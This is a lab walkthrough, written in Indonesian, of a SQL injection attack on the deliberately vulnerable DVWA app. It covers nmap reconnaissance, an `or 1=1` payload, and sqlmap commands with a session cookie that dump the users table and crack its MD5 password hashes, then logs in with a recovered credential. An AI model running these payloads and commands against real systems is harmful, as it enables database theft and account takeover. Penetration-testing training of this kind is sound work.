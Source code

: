 # Introduction

**SQL Injection** (SQLi) adalah salah satu jenis serangan siber yang paling umum. Serangan ini terjadi ketika seorang penyerang memasukkan (menginjeksi) kode SQL berbahaya **melalui input aplikasi web**, seperti kolom login atau formulir pencarian.

Tujuannya adalah untuk memanipulasi perintah SQL yang dijalankan di sisi server, memungkinkan penyerang untuk:

- Melewati otentikasi (login tanpa kata sandi).

- Mengakses, memodifikasi, atau menghapus data sensitif di database.

- Bahkan mendapatkan kontrol penuh atas server.

**Eksploitasi dengan sqlmap**

sqlmap adalah alat otomatis yang dirancang untuk mendeteksi dan mengeksploitasi kerentanan SQLi. Alat ini tidak menemukan kerentanan itu sendiri, tetapi secara otomatis menjalankan berbagai serangan untuk membuktikan kerentanan dan mengambil data. sqlmap bekerja dengan menggunakan berbagai teknik injeksi untuk berinteraksi dengan basis data.

**1. _Reconnaissence_**

- Analisis jaringan yang sedang dipakai untuk mengetahui IP yang digunakan

```
ifconfig
```
- Memindai seluruh jaringan internal yang saling terhubung untuk mencari target
```
nmap -sn <ip_range>

Ex. nmap -sn 192.168.1.0/24   //scanning the whole connected divices
```
**2. _Scanning and Enumeration_**

- Memindai port server, yaitu `80 (http)` dan `443 (https)` pada IP target
```
nmap -p 80,443 --script=http-enum <ip_metasploitable>
```
Script `http-enum` digunakan untuk membantu menemukan direktori yang tersembunyi.
```
PORT    STATE  SERVICE
80/tcp  open   http
| http-enum: 
|   /tikiwiki/: Tikiwiki
|   /test/: Test page
|   /phpinfo.php: Possible information file
|   /phpMyAdmin/: phpMyAdmin
|   /doc/: Potentially interesting directory w/ listing on 'apache/2.2.8 (ubuntu) dav/2'
|   /icons/: Potentially interesting folder w/ directory listing
|_  /index/: Potentially interesting folder
443/tcp closed https
```
- Eksplorasi Web Server menggunakan browser
```
<ip_metasploitable>/dvwa
```
Kita akan menggunakan **Damn Vulnerable Web Application** (DVWA) sebagai sistem untuk melakukan simulasi serangan melalui **Command Injection**

**3. _Gaining Access (Exploitation)_**
- Login ke DVWA
```
username : admin
password : password
```
- Merubah security level ke low
```
DVWA Security -> Script Security -> Low -> Submit
```
- Mencoba SQL Injection
```
1` or 1=1--
```
- `1'`:Tanda kutip tunggal (`) mengakhiri string di dalam kueri SQL, sehingga memungkinkan Anda menyisipkan kode Anda sendiri.

- `or 1=1`: Kondisi ini akan selalu bernilai benar. 1 sama dengan 1, jadi kondisi OR akan membuat seluruh kueri menjadi benar.

- `--`: Ini adalah komentar di SQL. Tanda ini akan membuat bagian selanjutnya dari kueri (yaitu, verifikasi kata sandi) diabaikan oleh database.

```
ID: 1` or 1=1--
First name: admin
Surname: admin
```
- Menggunakan SQLMAP untuk proses lebih lanjut

```
sqlmap -u "http://192.168.175.90/dvwa/vulnerabilities/sqli/?id=1%60+or+1%3D1--&Submit=Submit#" --cookie="security=low; PHPSESSID=b4bc85c30d98c40221134fcae940b491" --dbs
```
- Perlu mengganti `PHPSESSID` dengan cookie Anda. Buka browser, masuk ke DVWA, klik kanan, pilih "Inspect Element" (atau "Developer Tools"), dan cari `cookie` di bagian "Storage" atau "Application".
- `-u`: Menentukan URL target.
- `--cookie`: Mengirim cookie sesi Anda, yang diperlukan agar sqlmap bisa masuk ke halaman yang rentan.
- `--dbs`: Menginstruksikan sqlmap untuk **menampilkan daftar database** yang ada.

```
[07:48:59] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: MySQL >= 5.0.12
[07:48:59] [INFO] fetching database names
available databases [7]:
[*] dvwa
[*] information_schema
[*] metasploit
[*] mysql
[*] owasp10
[*] tikiwiki
[*] tikiwiki195
```
- Mencari tabel dalam suatu database
```
sqlmap -u "http://192.168.175.90/dvwa/vulnerabilities/sqli/?id=1%60+or+1%3D1--&Submit=Submit#" --cookie="security=low; PHPSESSID=b4bc85c30d98c40221134fcae940b491" -D dvwa --tables
```
Gunakan sqlmap dengan bendera (_flag_) `-D` untuk menentukan database yang ingin dituju, yaitu `dvwa`, dan bendera `--tables` untuk mendaftar tabel yang ada di dalamnya.
```
[07:52:59] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: MySQL >= 5.0.12
[07:52:59] [INFO] fetching tables for database: 'dvwa'
[07:52:59] [WARNING] reflective value(s) found and filtering out
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+
```
- Mengambil data dari tabel users
```
sqlmap -u "http://192.168.175.90/dvwa/vulnerabilities/sqli/?id=1%60+or+1%3D1--&Submit=Submit#" --cookie="security=low; PHPSESSID=b4bc85c30d98c40221134fcae940b491" -D dvwa -T users --dump
```
- `-T` users: Menentukan tabel yang ingin Anda tuju.
- `--dump`: Menginstruksikan sqlmap untuk mengekstrak semua data dari tabel tersebut.
- Proses `cracking password` yang diperoleh dari pemindaian tabel user

```
[09:14:46] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
do you want to crack them via a dictionary-based attack? [Y/n/q] y
[09:15:01] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 
[09:15:20] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] n
```
```
Database: dvwa                                                                 
Table: users
[5 entries]
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+------------+
| user_id | user    | avatar                                                | password                                    | last_name | first_name |
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+------------+
| 1       | admin   | http://172.16.123.129/dvwa/hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      |
| 2       | gordonb | http://172.16.123.129/dvwa/hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     |
| 3       | 1337    | http://172.16.123.129/dvwa/hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       |
| 4       | pablo   | http://172.16.123.129/dvwa/hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      |
| 5       | smithy  | http://172.16.123.129/dvwa/hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        |
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+------------+
```
**4. _Maintaining accsess dan Post exploitation_**
- Mencoba login menggunakan data yang ditemukan 
```
<ip_metasploitable>/dvwa
```
```
Ex.  username : pablo
     password : letmein
```
